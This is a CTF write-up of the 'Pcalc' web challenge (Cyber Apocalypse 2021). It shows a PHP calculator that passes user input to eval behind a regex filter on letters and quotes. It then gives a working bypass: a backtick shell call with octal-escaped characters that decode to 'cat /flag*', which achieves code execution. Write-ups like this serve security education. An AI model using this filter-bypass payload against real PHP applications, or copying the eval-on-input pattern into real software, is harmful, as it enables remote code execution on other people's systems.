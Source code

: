 ```yaml
---
title: Pcalc
date: 2021-04-25 18:15:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains code execution but with a little twist. We can't use letters and those characters `'"\[]`. So we have to somehow bypass the filter. For more information about this sort of thing I recommend looking at this [article](https://www.programmersought.com/article/7881105401/) and this [one](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#using-octal). (\* ^ ω ^)

The webpage looks like this:
![[Pasted image 20210425181432.png]]
![](/assets/img/pcalc_web.png#center)

Looking at `index.php` we can see there is only one route:

```php
$router = new Router();
$router->new('GET', '/', 'CalcController@index');
```

The controller `CalcController.php` looks like this:

```php
<?php
class CalcController
{
    public function index($router)
    {
        $formula = isset($_GET['formula']) ? $_GET['formula'] : '100*10-3+340';
        $calc = new CalcModel();
        return $router->view('index', ['res' => $calc->getCalc($formula)]);
    }
}
```

## Vulnerability
After analysing the source code we see the code is vulnerable to code execution due to the "eval" function. We only need do trick the "preg_match_all" function.
Here is the vulnerable code:

```php
<?php
class CalcModel
{
    public static function getCalc($formula)
    {
        if (strlen($formula) >= 100 || preg_match_all('/[a-z\'"]+/i', $formula)) {
            return '🤡 dont bite the hand that feeds you human 🤡';
        }
        try {
            eval('$pcalc = ' . $formula . ';');
            return isset($pcalc) ? $pcalc : '?';
        }
        catch (ParseError $err) {
           return '🚨 report to the nearest galactic federation agency 🚨';
        }  
    }
}
```

## Exploitation
We simply input `` `\143\141\164\40\57\146\154\141\147\52` `` which is octal encoded for `cat /flag*` and we get the flag:

> CHTB{I_d0nt_n33d_puny_hum4n_l3tt3rs_t0_pwn!}

٩(◕‿◕｡)۶